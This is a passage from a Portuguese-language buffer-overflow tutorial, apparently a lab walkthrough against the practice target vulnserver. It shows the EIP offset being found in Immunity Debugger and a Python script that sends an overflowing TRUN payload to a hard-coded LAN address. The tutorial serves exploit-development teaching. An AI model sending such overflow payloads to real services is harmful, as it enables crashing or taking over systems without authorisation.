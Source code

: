 Novamente o programa sofreu crash, mas temos o endereço do EIP: 386F4337.
Vamos consultar no msf-pattern_offset para identificar o endereço preciso para sobrescrever o ESP.

![Immunity.](/std/winbof/winbof-9.png)

Temos o offset preciso para atingir o EIP: 2003 bytes.
Vamos atualizar nosso exploit e verificar, vamos inserir 2003 “A” + 4 “B” e o restante de “C”, se o offset estiver correto, vamos preencher o EIP com “42424242” (B em hexa), e o ESP com vários “C”.

xpltrun.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# tamanho do offset encontrado no fuzzing
offset = 5061

# payload a ser enviado
payload = b"TRUN /../" # funcao inicial
payload += b"A"*2003 # preenchimento do buffer
payload += b"B"*4 # sobrescreve EIP
payload += b"C" * (5061 - 2003 - 4) # sobrescreve ESP

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # cria o socket
s.connect((ip,porta)) # conecta no alvo

s.send(payload + b"\r\n") # envia o payload

s.close() # fecha conexao
```

Vamos reiniciar o vulnserver no Immunity debbuger e rodar nosso script novamente.
